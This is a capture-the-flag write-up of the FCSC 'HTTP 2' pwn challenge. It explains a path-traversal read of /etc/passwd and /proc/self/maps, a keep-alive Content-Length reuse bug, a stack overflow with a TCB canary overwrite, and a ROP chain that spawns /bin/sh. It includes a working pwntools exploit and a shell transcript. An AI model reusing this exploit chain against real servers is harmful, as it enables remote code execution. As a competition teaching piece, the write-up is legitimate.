


# HTTP 2

- Category : `pwn`
- Points : `500` => `474`
- Difficulty : :star: :star::star:

- Solves : `11`

- Author : `XeR`


**Description**

> Non non, ce n'est pas HTTP/2 ! C'est HTTP version 2. Enfin, vous me comprenez.

*The description refers to a previous challenge from FCSC 2022 which was named `httpd`.*


**Attachments**

- `main` : HTTP Server binary
- `ld-linux-x86-64.so.2`, `libc-2.31.so` : Remote loader / libc
- `main.c`, `http.c`, `Makefile` : Challenge sources
- `getflag.c`, `getflag` : Wrapper binary to read the flag


### :book: Introduction

`HTTP 2` was a very cool and interesting challenge, the goal was to gain RCE on a multithreaded HTTP server with all protections enabled.


**TL; DR**

-  Leak process virtual address space by reading `/proc/self/maps` by exploiting a lack of path sanitizing.

- Exploit a wrong context reinitialization to bypass the `Content-Length` restriction
  - Send a first POST HTTP request which has a big size (`0xfffffff0`) and `Transfer-Encoding` header set to skip the check
  - Send another POST HTTP request without a `Content-Length` header, the previous size will then be used for this new request
-   Exploit a stack buffer overflow with a ROP chain
  - Variables inside the stack frame have to be carefully rewritten
  - Bypass canary by rewriting the associated value inside `TCB`
  - ROP to execute `execve("/bin/sh", NULL, NULL)` and duplicate stdin, stdout to remote socket
- Profit 


### :microscope: Understanding the program

> Note : the `/*+` comments are added by me, others were already in the source code.


The author was once again nice enough to provide us the source code.


Firstly, we can see in the Makefile that all classic mitigations are enabled : 

```Makefile
CFLAGS  += -fstack-protector-strong -ggdb -pthread
LDFLAGS += -z now -z relro

.PHONY: all
all: main getflag

main: main.c http.c

.PHONY: clean
clean:
	rm -f main getflag
```


We also could obtain these informations using `checksec`:

```
$ checksec ./main
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```


Now let's analyze the `main.c` file which only handles the server setup :

 

```c
int main(int argc, char *argv[static argc])
{
	const short port = argc > 1 ? atoi(argv[1]) : PORT;
	int fd = getSocket(port);

	if(fd < 0)
		return EXIT_FAILURE;

	handle(fd);

	close(fd);
	return EXIT_FAILURE;
}
```

The `getSocket` function simply sets up a TCP server socket binding to the port supplied in the first argument.


The `handle` function is a simple client accept loop, which then calls the `spawn` function, passing the client socket file descriptor as argument.


The `spawn` function is more interesting for us :

```c
static bool spawn(int fd)
{
	pthread_t thread;

	if(0 != pthread_create(&thread, NULL, f, (void*)fd)) {
		perror("pthread_create");
		return false;
	}

	if(0 != pthread_detach(thread)) {
		perror("pthread_detach");
		return false;
	}

	return true;
}
```


It handles the client by creating a thread and executing the `f` function.


```c
static void *f(void *arg)
{
	int   fd = (int)arg;
	FILE *fp = fdopen(fd, "w+");

	http_main(fp);
	fclose(fp);

	return NULL;
}
```

This function only calls the `http_main` function (located inside the `http.c` file) by passing it a `FILE` descriptor of the client socket.


Now we know that the server is creating a thread at each client connection. Let's keep this in mind, as this can have some consequences over the exploitation of a potential vulnerability.

> In the previous "version" of this challenge `httpd` (FCSC 2022), we could leak the canary by abusing a fork-based server, and  leak the canary byte by byte.
>
> This time, the server is multi-threaded, this means that if the thread crashes, the whole process crash and is restarted, reinitializing the address space / canary.


Let's move on to the `http.c` file which contains all the logic of the HTTP server.


The `http_main` function is very simple : 

```c
struct request {
	size_t count;
	struct header *headers;
	size_t length;
	bool keepalive;
};
// ...
int http_main(FILE *fp)
{
	struct request req = {};

	do {
		if(!parse(fp, &req))
			return EXIT_FAILURE;
	} while(req.keepalive);

	return EXIT_SUCCESS;
}
```

It simply handles HTTP requests sent by the client until the last request (EOF or `Connection` header not having `keep-alive` value).


The `parse` function handles the parsing and handling of the HTTP request header : 

```c
/*
 * Parse the header of a request
 * If the first line is not valid, all hopes are lost, abort the connection
 *
 * returns false if the connection should be aborted
 */
static bool parse(FILE *fp, struct request *req);
```


As the function is quite big, let's break it into parts :

```c
char line[0x1000];

// The connection is probably already closed, no need for an answer
if(NULL == fgets(line, sizeof(line), fp))
    return false;

// Parse the first line
char *saveptr = NULL;
const char *method  = strtok_r(line, " ", &saveptr);
const char *path    = strtok_r(NULL, " ", &saveptr);
const char *version = strtok_r(NULL, " ", &saveptr);
const char *end     = strtok_r(NULL, " ", &saveptr);
```

First, the first line of the HTTP request is parsed, to obtain informations such as method, path and HTTP version.

For example, with this request : `GET /index.html HTTP/1.1`

- `method` will be `GET`

- `path` will be `/index.html`
- `version` will be `HTTP/1.1`

Next, some checks are made on the validity of the line:

- The server only supports `HTTP/1.1` .
- The path must start by `/`
- The line must only contains 2 spaces (3 informations are parsed)


Then, the HTTP headers are parsed within the `parseHeaders` function : 

```c
// Parse headers
ssize_t count = parseHeaders(fp, &req->headers);

if(count < 0) {
    resp_400(fp);
    return false;
}

req->count = count; /*+ Update the request headers count +*/
```

And handled in the `handleHeaders` function :

 ```c
 // Try to make sense of this mess
 if(!handleHeaders(fp, req)) {
     return true;
 }
 ```


Once all of this has been parsed, the request is routed by the `route` function : 

```c
return route(fp, req, method, path);
```


The `parseHeaders` function is quite long and is not very interesting, it only parses the headers and allocates them on the heap using an array of the following structure : 

```c
struct header {
	char *key;
	char *value;
};
```


The `handleHeaders` function is a lot more interesting : 

```c
// Handle headers, returns false to skip the request
static bool handleHeaders(FILE *fp, struct request *req);
```


All the headers are parsed inside a loop by iterating over the previously parsed headers : 

```c
bool te   = false;
bool size = false;

for(size_t i = 0; i < req->count; i++) {
    const struct header *h = req->headers + i;
    const char *key = h->key;
    const char *val = h->value;

    // TODO: Connection: upgrade, keep-alive not handled properly
    if(0 == strcasecmp(key, "connection")) {
        /*+ The request handling should be continued only if "Connection" headers equals "keep-alive" +*/
        req->keepalive = 0 == strcasecmp(val, "keep-alive"); 
    } else if(0 == strcasecmp(key, "content-length")) {
        req->length = atoi(val);

        /*+ Request length is bounded to MAX_SIZE = 0x10000 +*/
        if(req->length > MAX_SIZE) /*+ Unsigned comparison +*/
            size = true; /*+ Sets invalid size flag +*/ 
    } else if(0 == strcasecmp(key, "transfer-encoding")) {
        te = true; /*+ Sets the Transfer encoding flag +*/
    }
}

// We can only have a single output
if(te) { /*+ If Transfer-Encoding header is present +*/
    // TODO:
    return false;
} else if(size) { /*+ If the size is invalid then skip the request +*/ 
    body_skip(fp, req);
    resp_413(fp);
    return false;
}

return true;
```


The server is only handling 3 types of headers:

- `Connection` to determine if the request handling should continue in the `http_main` loop.
- `Content-length` to determine the request body length
- `Transfer-Encoding` still not implemented, but it is here :man_shrugging:


Next, lets jump back to the `route` function :

 ```c
 // returns false only if the connection should be closed
 static bool route(FILE *fp, const struct request *req,
 	const char *method, const char *path)
 {
 	if(0 == strcasecmp of(method, "GET"))
 		return get(fp, req, path + 1);
 	else if(0 == strcasecmp(method, "POST"))
 		return post(fp, req);
 
 	// Valid path but invalid method
 	resp_405(fp);
 	return true;
 }
 ```

It simply executes `get` or `post` depending on the request type.

Note that only `get` is aware of the path, `post`does not depend of the path.


The `get` function doest just what we expect from a `GET` request handler : 

```c
// returns false if the connection should be closed
static bool get(FILE *fp, const struct request *req, const char *path)
```


It firsts open a file descriptor with the given request `path` :

```c
int fd = open(path, O_RDONLY);
if(fd < 0) {
    resp_404(fp);
    return true;
}
```

Next the HTTP response header is sent, note that the `Chunked` transfer encoding mode is used.

```c
// Header
fputs("HTTP/1.1 200 OK\r\n", fp);
fputs("Transfer-Encoding: chunked\r\n", fp);
fputs("\r\n", fp);
```


The file is read and sent to the client chunk by chunk, by prepending the chunk size.

```c
ssize_t size;
char buffer[0x1000];

// Send chunks
while((size = read(fd, buffer, sizeof(buffer))) > 0) {
    fprintf(fp, "%lx\r\n", size);
    fwrite(buffer, 1, size, fp);
    fputs("\r\n", fp);
}
```


Finishing by the last chunk (which is of size 0, indicating the end of the transfer) : 

```c
// Final chunk
fputs("0\r\n", fp);
fputs("\r\n", fp);
```


Finally, let's analyze the `post` function : 

```c
static bool post(FILE *fp, const struct request *req);
```


First, context variables are initialized within the function stack frame : 

```c
const size_t size = req->length;
size_t off = 0;
char body[size];
```

>  Important note : the `body` buffer is dynamically allocated on the stack, which means that stack allocation will be done at runtime, depending on the request length. In practice, this will allocate (subtract) a 16-bytes aligned size from the current stack pointer, and make the `buffer` variable reference the resulting address.


Then, the POST HTTP request body will be read into the buffer with a loop, terminating only when the whole content has been read.

>  This offset / size loop is probably used to handle buffering which limits the amount of bytes read by `fread` to a certain value.

```c
while(off < size) {
    size_t r = fread(body + off, 1, size - off, fp);

    // EOF ?
    if(0 == r)
        return false;

    off += r;
}
```


Then, a static response is replied to the client.

```c
static const char response[] = "What did you expect? A web challenge?";

fputs("HTTP/1.1 200 OK\r\n", fp);
fprintf(fp, "Content-Length: %lu\r\n", strlen(response));
fputs("\r\n", fp);
fwrite(response, 1, strlen(response), fp);
```


### :mag_right: Vulnerability hunting

Now that we have a good understanding of the program, we can change our mindset to an attacker one, and try to see if we can search for some vulnerabilities in this code.


**Arbitrary file read**

Let's start by the most obvious one.

Inside the `get` function, when the resource is opened using `open`, no sanitizing is done on the request `path` at any step.

This allows us to provide an arbitrary path and escape the "webroot" of the HTTP server.

Inside the `route` function, `path + 1` is passed to `get`, which contains our request path from the second character.

```c
if(0 == strcasecmp of(method, "GET"))
    return get(fp, req, path + 1);
```

The `get` request then happily opens the requested path : 

```c
int fd = open(path, O_RDONLY);
if(fd < 0) {
    resp_404(fp);
    return true;
}
```

 This means that if we provide a path such as this `//etc/passwd`, we can effectively obtain the content of the file.

Let's try this remotely : `http://http2.france-cybersecurity-challenge.fr:2106//etc/passwd`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
ctf:x:1000:1000::/home/ctf:/bin/sh
pwned:x:1001:1001::/home/pwned:/bin/sh
```

And we've got the file content as expected !

> Note that two custom users are present on the machine, probably because the `getflag` binary is SUID and owned by `ctf`


**Logic bug : lack of context reinitialization**

Now we need to find a more powerful bug that will allow us to gain RCE on the HTTP server.

As there is not so much heap-related operations, I suspect that the vulnerability might rely on the stack. 


Unfortunately, at first glance there is no obvious vulnerabilities, the only suspicious buffer that contains our data is inside the `post` function and is dynamically allocated.

The request size is also checked to not exceed thread stack bounds inside the `parseHeaders` function:

```c
// ...
else if(0 == strcasecmp(key, "content-length")) {
        req->length = atoi(val);

        /*+ Request length is bounded to MAX_SIZE = 0x10000 +*/
        if(req->length > MAX_SIZE) /*+ Unsigned comparison +*/
            size = true; /*+ Sets invalid size flag +*/ 
```

The bug must be elsewhere, and might be a little more subtile...

Let's get back to the `http_main` function :

```c
int http_main(FILE *fp)
{
	struct request req = {};

	do {
		if(!parse(fp, &req))
			return EXIT_FAILURE;
	} while(req.keepalive);

	return EXIT_SUCCESS;
}
```

If the request has the `keepalive` flag, the next request is parsed just after. However, the `req` structure is not re-initialized and contains previous request data !


A safe way to implement the loop is just to null-out the structure after the `parse` call :

```c
do {
    if(!parse(fp, &req))
        return EXIT_FAILURE;
    bzero(req, sizeof(struct request));
} while(req.keepalive);
```


That means that if we are able to trigger a path that will left data inside the `req` structure which will not be checked in the next request handling, we could eventually do something nasty :smiling_imp:.

Now that we've found the vulnerability, let's again read the code to see if a certain path can fulfill the previously said conditions.


Another strange thing inside the code is that `Transfer-Encoding` header, which is present and unused.

Let's check again the `handleHeaders` function :

```c
bool te   = false;
bool size = false;

for(size_t i = 0; i < req->count; i++) {
    const struct header *h = req->headers + i;
    const char *key = h->key;
    const char *val = h->value;

    // TODO: Connection: upgrade, keep-alive not handled properly
    if(0 == strcasecmp(key, "connection")) {
        /*+ The request handling should be continued only if "Connection" headers equals "keep-alive" +*/
        req->keepalive = 0 == strcasecmp(val, "keep-alive"); 
    } else if(0 == strcasecmp(key, "content-length")) {
        req->length = atoi(val);

        /*+ Request length is bounded to MAX_SIZE = 0x10000 +*/
        if(req->length > MAX_SIZE) /*+ Unsigned comparison +*/
            size = true; /*+ Sets invalid size flag +*/ 
    } else if(0 == strcasecmp(key, "transfer-encoding")) {
        te = true; /*+ Sets the Transfer encoding flag +*/
    }
}

// We can only have a single output
if(te) { /*+ If Transfer-Encoding header is present +*/
    // TODO:
    return false;
} else if(size) { /*+ If the size is invalid then skip the request +*/ 
    body_skip(fp, req);
    resp_413(fp);
    return false;
}

return true;
```


If the `Transfer-Encoding` header is set, then the `te` flag is set to `true` and the request is skipped by the `parse` function.

Let's note that the `te` check is done **before** the `size` check.

Let's also note that the request length is only set in this function, when a `Content-Length` header is provided with a size.


That means that if a first HTTP request have these following headers:

- `Content-Length` : High value > `0x10000`
- `Transfer-Encoding` : `whatever`
- `Connection` : `keep-alive`

The request size will be set (inside the `req`, within the `http_main` function stack frame), and the `size` check will be skipped, as the functions returns in the `te` check.

As the request has the `Connection` header with the `keep-alive` value, the `keepalive` flag is set inside the `req` structure, so the `http_main` loop will continue to handle more requests.

If the next request has no `Content-Length` header, the request size won't be updated and the previous request size will be used ! Allowing us to freely control the size of the buffer inside the `post` function.





### :volcano: Getting a stack buffer overflow

As explained in the last part, we have the ability to read any files on the system, and to control the size of the dynamically allocated buffer inside the `post` function.


**Getting a leak**

As ASLR is enabled remotely and the binary is `PIE`, we have to first get an address leak.

By abusing the arbitrary file read vulnerability, we can retrieve the content of the `/proc/self/maps` pseudo-file. This file simply lists the virtual address space mappings of the current process. Here is an example of its content :

```
67c1b2c1000-67c1b2c2000 r--p 00000000 fe:00 139685                       /app/main
67c1b2c2000-67c1b2c4000 r-xp 00001000 fe:00 139685                       /app/main
67c1b2c4000-67c1b2c5000 r--p 00003000 fe:00 139685                       /app/main
67c1b2c5000-67c1b2c6000 r--p 00003000 fe:00 139685                       /app/main
67c1b2c6000-67c1b2c7000 rw-p 00004000 fe:00 139685                       /app/main
67c3bba0000-67c3bbc2000 rw-p 00000000 00:00 0                            [heap]
638394000000-638394021000 rw-p 00000000 00:00 0 
638394021000-638398000000 ---p 00000000 00:00 0 
63839808b000-63839808c000 ---p 00000000 00:00 0 
63839808c000-63839888f000 rw-p 00000000 00:00 0 
63839888f000-6383988b1000 r--p 00000000 fe:00 129191                     /lib/x86_64-linux-gnu/libc-2.31.so
6383988b1000-638398a0b000 r-xp 00022000 fe:00 129191                     /lib/x86_64-linux-gnu/libc-2.31.so
638398a0b000-638398a5a000 r--p 0017c000 fe:00 129191                     /lib/x86_64-linux-gnu/libc-2.31.so
638398a5a000-638398a5e000 r--p 001ca000 fe:00 129191                     /lib/x86_64-linux-gnu/libc-2.31.so
638398a5e000-638398a60000 rw-p 001ce000 fe:00 129191                     /lib/x86_64-linux-gnu/libc-2.31.so
638398a60000-638398a64000 rw-p 00000000 00:00 0 
638398a64000-638398a6a000 r--p 00000000 fe:00 129236                     /lib/x86_64-linux-gnu/libpthread-2.31.so
638398a6a000-638398a7a000 r-xp 00006000 fe:00 129236                     /lib/x86_64-linux-gnu/libpthread-2.31.so
638398a7a000-638398a80000 r--p 00016000 fe:00 129236                     /lib/x86_64-linux-gnu/libpthread-2.31.so
638398a80000-638398a81000 r--p 0001b000 fe:00 129236                     /lib/x86_64-linux-gnu/libpthread-2.31.so
638398a81000-638398a82000 rw-p 0001c000 fe:00 129236                     /lib/x86_64-linux-gnu/libpthread-2.31.so
638398a82000-638398a88000 rw-p 00000000 00:00 0 
638398a8a000-638398a8e000 r--p 00000000 00:00 0                          [vvar]
638398a8e000-638398a90000 r-xp 00000000 00:00 0                          [vdso]
638398a90000-638398a91000 r--p 00000000 fe:00 129179                     /lib/x86_64-linux-gnu/ld-2.31.so
638398a91000-638398ab1000 r-xp 00001000 fe:00 129179                     /lib/x86_64-linux-gnu/ld-2.31.so
638398ab1000-638398ab9000 r--p 00021000 fe:00 129179                     /lib/x86_64-linux-gnu/ld-2.31.so
638398aba000-638398abb000 r--p 00029000 fe:00 129179                     /lib/x86_64-linux-gnu/ld-2.31.so
638398abb000-638398abc000 rw-p 0002a000 fe:00 129179                     /lib/x86_64-linux-gnu/ld-2.31.so
638398abc000-638398abd000 rw-p 00000000 00:00 0 
7949286f6000-794928717000 rw-p 00000000 00:00 0                          [stack]
```

This allows us to leak all the base addresses of the different memory segments.

- `Binary base` : `0x67c1b2c1000`
- `Libc base` : `0x63839888f000`

We can also identify the current thread `heap` and `stack` in gdb, which appears to be respectively just after main thread's heap and just before `libc` for the thread's stack : 

- `Thread heap` : `0x638394000000`
- `Thread stack` : `0x63839808c000`


> By reading arbitrary files we are tempted to just read the flag on the file system. Unfortunately, the flag might be owned by another user, as a `getflag` binary is provided to us.


**Making the buffer... overflow**

As explained in the `Understanding the program` part, the `body` buffer inside the `post` function is dynamically allocated on the stack (similar way as `alloca` function).

Having a big length such as `0x1333337` won't help us so much, as the function will just try to subtract a big value from the stack pointer (allocate), eventually causing a `Segmentation fault` because we reached the beginning of the thread' stack segment.


Fortunately for us not only buffers can overflow ! What if we could manipulate the size such as the allocated buffer overlaps with over fields within the stack frame ? With an integer overflow ! :smile:

Let's see in Binary Ninja how the allocated buffer address is calculated : 

```c
void* body = &_req - divu.dp.q(0:(size + 0xf), 0x10) * 0x10
```

Which is equivalent to this :

```c
void * body = &req - (size + 0xf / 0x10) * 0x10
```

If the provided size is for example `0xffffffff` (-1 as signed 32 bits integer, as the length is parsed using `atoi` then converted to `size_t`) :

```c
void * body = &req - (-1 + 0xf / 0x10) * 0x10
            = &req - (0xe / 0x10) * 0x10
    		= &req - 0 * 0x10
     		= &req
```

With this, we can manage to make our buffer points to the `req` pointer (local parameter).

And the first `fread` call will happily reads our big amount of data into the function stack frame !


### :duck: Bypassing the canary

We successfully managed to overwrite the entire stack frame of our `post` function, unfortunately, the data read by `fread` will overwrite the canary, and the execution will be interrupted at the end of the function.

Let's remind us that the server is multithreaded, and it is therefore not possible to leak the canary via a crash oracle.

Although this brings up a new technique on the table.

Let's see how the canary is initialized in a function prologue, and checked in function epilogue:

Canary initialization : 

```assembly
mov     rax, qword [fs:0x28] ; <-- get original canary value from fs:0x28
mov     qword [rbp-0x18 {canary}], rax ; <-- Canary inside the stack frame
```

Canary check : 

```assembly
00001d6c  488b5de8           mov     rbx, qword [rbp-0x18 {canary}] ; <-- get back canary from the stack
00001d70  64482b1c25280000…  sub     rbx, qword [fs:0x28] ; <-- get original canary value from fs:0x28
00001d79  7405               je      0x1d80 ; if canary is correct then returns normally

00001d7b  e850f3ffff         call    __stack_chk_fail ; else trigger a stack smashing exception
{ Does not return }

00001d80  488b5df8           mov     rbx, qword [rbp-0x8 {__saved_rbx}]
00001d84  c9                 leave    {__saved_rbp}
00001d85  c3                 retn     {__return_addr}
```

Well this sounds simple, but what is this `fs` referring to ?

On x86_64 the `fs` segment register points to the `TLS` (Thread Local Storage), which is a structure containing [some data about the thread](https://fr.wikipedia.org/wiki/Thread_Local_Storage).

`TLS` starts with the [tcbhead_t](https://elixir.bootlin.com/glibc/glibc-2.31/source/sysdeps/x86_64/nptl/tls.h#L42) structure contains the following fields : 

```c
typedef struct
{
  void *tcb;		/* Pointer to the TCB.  Not necessarily the
			   thread descriptor used by libpthread.  */
  dtv_t *dtv;
  void *self;		/* Pointer to the thread descriptor.  */
  int multiple_threads;
  int gscope_flag;
  uintptr_t sysinfo;
  uintptr_t stack_guard; /*+ offset 0x28 +*/
  uintptr_t pointer_guard;
  // ...
} tcbhead_t;
```

And interestingly, the `stack_guard` is at offset `0x28`. Coincidence ? I think not ! 

This is exactly the canary value stored inside the structure, which is placed towards the end of the stack.

> We can obtain the TLS address by using `p $fs_base` within GDB

What if we could overwrite this `stack_guard` value by our own ? Exactly, we would control the canary value fetched by the `sub rbx, qword[fs:0x28]` instruction.


Unfortunately, there is some additional problems... Of course we could just overwrite the full stack with a bunch of As, but this would corrupt the previous fields inside the `tcbhead_t` structure, which are used by other functions (for example in mutexes and so on).

We have to find a way to precisely overwrite the `stack_guard` field only.


Let's check the stack frame structure within Binary Ninja :



Our buffer currently points to `_req`, so we can overwrite the following fields after the first `fread` call :

- `_req` : the request structure pointer
- `file_fd` : the socket `FILE` descriptor
- `off` : the current amount of data written so far
- `size` : the original size
- `temp_buffer` : the computed `body + off` pointer
  - `fread(body + off, 1, size - off, fp)`
- `read_size` the returned read size


Wait, what if we just overwrite the `temp_buffer` to make it point to `fs:0x28` ? :smile:

We can also adjust the `off` / `size` fields to make the next `fread` size to `0x8` to overwrite only 1 qword.


Lets get back to the `post` code : 

```c
while(off < size) {
    size_t r = fread(body + off, 1, size - off, fp);

    // EOF ?
    if(0 == r)
        return false;

    off += r;
}
```


Our goal is to have a second `fread` call with the following parameters : 

```c
fread(fs_base + 0x28, 1, 0x8, fp)
```

We have to overwrite the following fields : 

- `file_fd` => restore previous opened `FILE` descriptor
  - `file_fd` is allocated on the thread's heap via `fopen`, and is at a constant offset
- `off` => `0`
-  `count` => `r + 8` (qword size), we need to add `r` as `off += r` is called at the end of the loop 

We can get `r` by getting back the return value of the first `fread` within GDB. For some reasons, this value is equal to `0xfd1` with the request I tried.

> I think this is because the max buffer size of a buffered file descriptor is `0x1000`  and the input buffer is already filled with request headers data.
>
> In this case, the headers data were len `0x2f`, as `0xfd1` + `0x2f` = `0x1000`


We will then send a bunch of `B`s to first overwrite the canary value and then exits the loop as in the third `fread` call, `off` will be `> size`, then the function would return into our ROP chain !


### :writing_hand: Writing the exploit

Now that we have all that we need to exploit the vulnerabilities, let's write some utility functions :

```py
def make_http_header(verb, path, headers):
    req = "{} {} HTTP/1.1\r\n".format(verb, path).encode()
    for k, v in headers.items():
        req += "{}: {}\r\n".format(k, v).encode()
    req += b"\r\n"
    return req

def send_http_post(path, headers, body=b""):
    req = make_http_header("POST", path, headers)
    req += body
    r.send(req)

def send_http_get(path, headers):
    req = make_http_header("GET", path, headers)
    r.send(req)
```

 

**Leaky leaky leaky**

The first step of the exploit is to leak the base addresses of the interesting segments within process virtual address space.

We can do this by exploiting the `arbitrary file read` vulnerability as explained previously : 

```py
send_http_get("//proc/self/maps", {"Connection": "keep-alive" }) # Set keep-alive to continue handling the next requests
r.recvuntil(b"\r\n\r\n")

leaks = r.recvuntil(b'stack]').splitlines()[1:]

code_base = int(leaks[0].split(b'-')[0], 16)

for i,l in enumerate(leaks):
    if b"libc" in l and libc_base == 0:
        libc_base = int(l.split(b'-')[0], 16)
        thread_stack = int(leaks[i-1].split(b' ')[0].split(b'-')[1], 16)
    if b"heap" in l:
        thread_heap = int(leaks[i+1].split(b'-')[0], 16)
```

  

**Bad size**

Next we have to trigger the logic bug by sending the following request

```py
send_http_get("/flag",
    {
        "Content-length": 0xffffffff,
        "Connection": "keep-alive",
        "Transfer-Encoding": "chunked"
    }
)
```


**ROP it !**

Next we have to craft our payload to bypass the canary and make the `post` function return into our ROP chain.


Lets first define useful variables : 

```py
pop_rdi = libc_base + 0x0000000000023796 # pop rdi ; ret
pop_rsi = libc_base + 0x000000000002590f # pop rsi ; ret
pop_rdx = libc_base + 0x00000000000c8acd # pop rdx ; ret

FILE_FD_OFFSET = 0xb60
FS_BASE_OFFSET = 0x3900

headers_len = len(make_http_header("POST", "/flag", {"Connection": "close"}))
remaining_offset = 0x1000 - headers_len
```


Let then build the beginning of our payload to corrupt the stack frame

```py
pld = p64(0x0) # req
pld += p64(thread_heap + FILE_FD_OFFSET) # fp
pld += p64(0) # off
pld += p64(remaining_offset + 0x8) # size
pld += b"A"*0x8 # var_28
pld += p64(thread_stack - (FS_BASE_OFFSET + 0x28) - remaining_offset + 0x50) # temp_buffer, had to add this + 0x50 to make it work
pld += b"A"*0x8 # read_size
pld += b"A"*0x8 # canary
pld += b"A"*0x18 # overwrite saved registers

# Next overwrite will be return address
```

I didn't have enough time to investigate why I have to add this `0x50` offset to the `temp_buffer` variable, but it could be find using GDB.


And finally build the ROP chain :

```py
# dup2(4, 0)
pld += p64(pop_rdi)
pld += p64(4)
pld += p64(pop_rsi)
pld += p64(0)
pld += p64(libc_base + libc.sym['dup2'])

# dup2(4, 1)
pld += p64(pop_rdi)
pld += p64(4)
pld += p64(pop_rsi)
pld += p64(1)
pld += p64(libc_base + libc.sym['dup2'])

# dup2(4, 2)
pld += p64(pop_rdi)
pld += p64(libc_base + next(libc.search(b"/bin/sh")))
pld += p64(pop_rsi)
pld += p64(0)
pld += p64(pop_rdx)
pld += p64(0)
pld += p64(libc_base + libc.sym['execve'])
```

> Initially, I just wanted to do simple `system` with the command inside the heap through a header. Unfortunately, system didn't seem to work remotely, I still don't know why yet...


We then send the payload, padded with a big amount of `A` to fill the `fp` input buffer, and if everything went well, we've got a shell ! 

```py
pld = pld.ljust(0x2000 - (remaining_offset + 0x8), b"A")

send_http_post("/flag", {"Connection": "close"}, pld)

r.sendline(b'') # Buffering things

r.interactive()
```


**Profit**

```
$ python3 exploit-final.py 
[+] code base: 0x87f90290000
[+] libc base: 0x6c7ae5347000
[+] thread stack: 0x6c7ae5347000
[+] thread heap: 0x6c7ae0000000
[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ./getflag
FCSC{df2466546c00e98a1fb8804b280589047b873ef4288260b709084e981e9848ff}
```


### :rocket: Improvements

The exploit is quite reliable, but not 100% stable. Some things inside the exploit might explain this : 

- Leaks : As the server is mutualized among other players, if they are executing requests during the exploit, this would skew the leaks obtained through `/proc/self/maps`, as other heap and stack would be allocated.

- Use of constant offsets : the offsets found within GDB might not be the same on another machine, it highly depends on the environnement.
- Constant socket file descriptor : to duplicate the `stdin` and `stdout` file descriptors, I just used `4`, which is the next socket that will be available after program start. As others players might be exploiting it simultaneously, it happens that `4` is not the file descriptor used for my connection.
  - It would be possible to dynamically obtain it from the `fp` structure which lies in the `heap` through a little bit more complicated ROP chain.


### :checkered_flag: Conclusion

`HTTP 2` was a really cool challenge which fits perfectly in the continuity of its little brother `httpd`. The vulnerability is not obvious at first glance, but the challenge is very well designed such as we can fulfill all the required conditions to gain RCE. 